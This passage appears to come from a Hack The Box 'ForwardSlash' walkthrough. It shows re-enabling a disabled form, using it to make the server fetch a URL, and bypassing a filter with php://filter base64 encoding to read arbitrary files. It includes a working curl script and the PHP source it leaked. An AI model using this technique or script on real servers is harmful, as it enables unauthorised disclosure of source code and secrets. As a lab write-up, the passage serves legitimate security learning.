 When a functionality is disabled client-side, you should always check if it's
also been disabled server-side, so let's modify the HTML using the console to
remove the `disabled` option and reactivate the form functionality.

## Arbitrary file read

We can start a web server with `python -m http.server 1337` and use the form
to try make a request to it:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/forwardslash/request.png)

Lets check the web server:
```
$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.10.183 - - [07/Apr/2020 13:05:59] "GET / HTTP/1.0" 200 -
```

And we received the request! And the strange thing is that the request response is embedded in
the response page:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/forwardslash/listing.png)

At first I thought it was gonna be a RFI, but after a bit I tried to do a
request to `index.php` and this was the result:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/forwardslash/index-exfil.png)

There's probably some kind of WAF preventing arbitrary file read, so we can try
to use `php://filter` to encode the page before it gets sent, in order to bypass
the WAF:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/forwardslash/base64-exfil.png)

## Bypassing the "WAF"

It works! Now we could manually decode the string each time, or we can write a
little script to make our life easier:
```bash
#!/usr/bin/env bash
curl -s -k -X $'POST' \
    -H 'Cookie: PHPSESSID=8qiu4kr68c7j2ir7439ia2mt4t'\
    -d "url=php://filter/convert.base64-encode/resource=${1}" \
    'http://backup.forwardslash.htb/profilepicture.php' 2>&1 | cut -z --complement -c 1-689 | base64 -i -d
```

`cut` is used to remove the `profilepicture.php` page and only keep the desired
output.

Now we can use the script to read any page, for example `./read.sh
profilepicture.php` gives us:
```php
<?php
// Initialize the session
session_start();

// Check if the user is logged in, if not then redirect him to login page
if(!isset($_SESSION["loggedin"]) || $_SESSION["loggedin"] !== true){
    header("location: login.php");
    exit;
}
/*
if (isset($_GET['success'])){
        echo <h1>Profile Picture Change Successfully!</h1>;
        exit;
}
*/
```